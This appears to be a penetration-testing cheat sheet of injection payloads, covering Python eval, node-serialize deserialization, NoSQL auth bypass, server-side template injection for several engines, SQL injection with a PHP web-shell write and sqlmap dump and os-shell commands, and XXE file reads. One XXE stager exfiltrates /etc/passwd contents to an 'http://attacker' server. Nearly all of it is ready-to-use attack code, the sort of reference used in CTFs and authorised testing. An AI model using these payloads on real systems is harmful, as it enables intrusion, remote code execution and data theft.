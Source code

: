 # Types

- Code Injection
- Deserialization Injection
- NoSQL Injection
- Server-Side Template Injection
- SQL Injection
- XML External Entity

# Code Injection

## Python

Eval Command Execution
`eval("__import__('os').system('id')")`

# Deserialization Injection

## JavaScript

Payload Generator
```
var y = {
	rce : function(){
		require('child_process').exec('ping -c 1 ipaddress /', function(error, stdout,	stderr) { console.log(stdout) });
	},
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

# NoSQL Injection

Test Payload 1
`admin' || '' === '`

Test Payload 2
```
Content-Type: application/x-www-form-urlencoded
user=admin&password[$ne]=admin
```

Test Payload 3
```
Content-Type: application/json
{
	"user":"admin",
```

Test Payload 4
```
Content-Type: application/json
{
	"user":"admin",
	"password":{
		"$ne":"admin"
	}
}
```

# Server-Side Template Injection

## Nunjucks (NodeJS)

```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('payload')")()}}
```

## Java

RCE Payload 1
```
*
{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('payload')
.getInputStream())}
```

## Python

Test Payload 1
`{{1+1}}` (Should eval to 2)

RCE Payload 1
`{{config.__class__.__init__.__globals__['os'].popen('payload').read()}}`

RCE Payload 2
```
{{self._TemplateReference__context.namespace.__init__.__globals__.os.popen("payload").read()}}
```

# SQL Injection

## Manual

### Enumeration

Basic Error Test
`value'`

Confirm SQL Injection Possible (if error goes away)
Note: The last dash protects the trailing space, which can get removed otherwise
`value' -- -`

Circumvent Query Condition
`' or 1=1;-- -`

Determine Number of Columns in Select (add/remove numbers until no error)
`value' union select 1,2,3-- -`

Get DB version (assuming injection returns field 2)
`value' union select 1,@@version,3-- -`

### Exploitation

Into Outfile Web Shell
`value' union select "<?php echo system($_REQUEST['c']); ?>" into outfile '/var/www/html/shell.php'-- -`

## sqlmap

### Request

Save Request
`In burp, intercept the request, and right click > Save Item. (E.g.: request.req)`

Initial Tests (--batch accepts all defaults to prompts)
```
sqlmap -r request.req --batch

Can set risk and levels as needed. E.g., 
sqlmap -r request.req --batch --risk=3 --level=3

This switch was used on HTB, but not documented in man page:
--force-ssl
```

Attempt Getting Shell via RCE
`sqlmap -r request.req --os-shell`

Check User Privs (E.g., FILE)
`sqlmap -r request.req --batch --privileges`

Enumerate databases
`sqlmap -r request.req --batch --dbs`

Get table names from dbname database
`sqlmap -r request.req --batch -D dbname --tables`

Dump the tblname table
`sqlmap -r request.req -D dbname -T tblname --dump`

### CLI Spec

Login, Username Param
`sqlmap -u http://url/endpoint?action=login --data="username=abc&password=abc" -p username [--level 5 --risk 3 to find more options] --batch`

JSON API
`sqlmap -u "protocol:address:port" --data '{"param_name": "*"}' --dbs [--threads 10 for speed] [--level 5 --risk 3 to find more options] --batch`

# XML External Entity

For best results, don't modify any formatting found used by the client/server.

## LFI Method 1

```
<?xml version="1.0" ?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<exampletag>&file;</exampletag>
```

Note: If the system has PHP and you want to base64 encode a file (binary, PDF, etc.) for easy transfer, use the following:
`<!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/path/to/file">`
## LFI Method 2

Create Payload
```
evil.dtd accessible via attacker web server:

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">

<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://attacker/?p=%file;'>" >
```

Start web server

Inject Stager
```
<?xml version="1.0" ?>
<!DOCTYPE ANY [
<!ENTITY % remote SYSTEM 'http://attacker/evil.dtd'>%remote;%init;%trick;
]>
```
